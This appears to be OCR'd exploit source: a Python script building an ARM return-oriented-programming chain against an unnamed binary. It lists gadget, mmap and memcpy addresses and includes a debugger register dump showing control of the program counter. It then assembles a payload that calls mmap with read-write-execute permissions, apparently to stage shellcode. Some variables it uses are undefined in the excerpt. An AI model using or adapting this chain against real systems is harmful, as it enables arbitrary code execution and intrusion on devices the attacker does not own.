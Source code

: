 ```python
r3popnothumb = 0x000111c4
#0x00011f52 : blx r4
blxr4 = 0x00011f52
#       void *mmap(void *addr, size_t len, int prot, int flags, int fildes, off_t off);
mmap = 0x00011240
mmap = 0x00013E0C +1
memcpy = 0x00011410
memcpy_got = 0x000320C0
#0x0001fe36 : add r3, sp, #0x2b8
addr3sp = 0x0001fe36

#0x000176c0 : add r0, sp, #0x1a0 ; movs r1, r0 ; bx lr
#0x000122c0 : ldm.w ip, {r5, sb, sl, lr} ; add sp, #0x10 ; pop {r4, pc}
ctrlr = 0x000122c0
#0x00014b5a : ldr lr, [sp], #4 ; b.w #0x1263e
setlrjmpr3 = 0x00014b5a
"""
Register state when we take control of PC
r0             0x0                 0
r1             0x38024             229412
r2             0x35a70             219760
r3             0x35a70             219760
r4             0x61716161          1634820449
r5             0x61726161          1634885985
r6             0x61736161          1634951521
r7             0x61746161          1635017057
r8             0x61756161          1635082593
r9             0x61766161          1635148129
r10            0x61776161          1635213665
r11            0x61786161          1635279201
r12            0x7                 7
sp             0x7efe9b38          0x7efe9b38
lr             0x3f                63
pc             0x5a5a5a5a          0x5a5a5a5a
cpsr           0x600b0110          1611333904
fpscr          0x10                16
"""
address = 0x177000
stderr = 0x00036E90
ropchain = c[:74] + p32(stderr) + p32(address) * 4 
ropchain = ropchain.ljust(94, "A")
ropchain += p32(r3popnothumb)
ropchain += p32(address) #r3 dont care
ropchain += p32(r5pop+1)
ropchain += p32(address) #r5 dont care
ropchain += p32(r14pop+1)
ropchain += p32(0x1000) #r1 size
ropchain += p32(address) #r4 dont care
ropchain += p32(r234pop+1) #pc
ropchain += p32(7) #r2 prot
ropchain += p32(address) #r3 dont care
ropchain += p32(address) #r4 dont care
ropchain += p32(r03pop+1) #pc
ropchain += p32(address) #r0 addr
ropchain += p32(0x22) #r3 flags Anonimous
ropchain += p32(mmap)
ropchain += p32(0x0) #fildes
ropchain += p32(0x0) #off
ropchain += p32(0x41414141) #pc
```
